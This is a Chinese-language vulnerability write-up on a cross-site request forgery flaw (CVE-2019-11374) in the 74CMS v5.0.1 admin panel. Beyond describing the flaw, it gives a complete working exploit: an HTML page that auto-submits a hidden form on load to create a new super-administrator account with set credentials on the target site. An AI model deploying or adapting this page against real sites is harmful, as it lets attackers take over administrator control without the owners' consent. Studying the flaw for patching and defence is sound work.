


74cms v5.0.1 后台跨站请求伪造漏洞 CVE-2019-11374¶
漏洞描述¶
在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add 攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。
漏洞影响¶
74CMS v5.0.1
漏洞复现¶
首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包

当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户

利用exp如下：
<!DOCTYPE html>
<html>
<head>
<title> CSRF </title>
<script type="text/javascript">
function exec1(){
document.getElementById('form1').submit();
}
</script>
</head>
<body onload="exec1();">
<form id="form1" action="https://www.0dayhack.com/index.php?m=Admin&c=admin&a=add" method="POST">
<input type="hidden" name="username" value="admin688" />
<input type="hidden" name="email" value="111111111@qq.com" />
<input type="hidden" name="password" value="admin688" />
<input type="hidden" name="repassword" value="admin688" />
<input type="hidden" name="role_id" value="1" />
</form>
</body>
</html>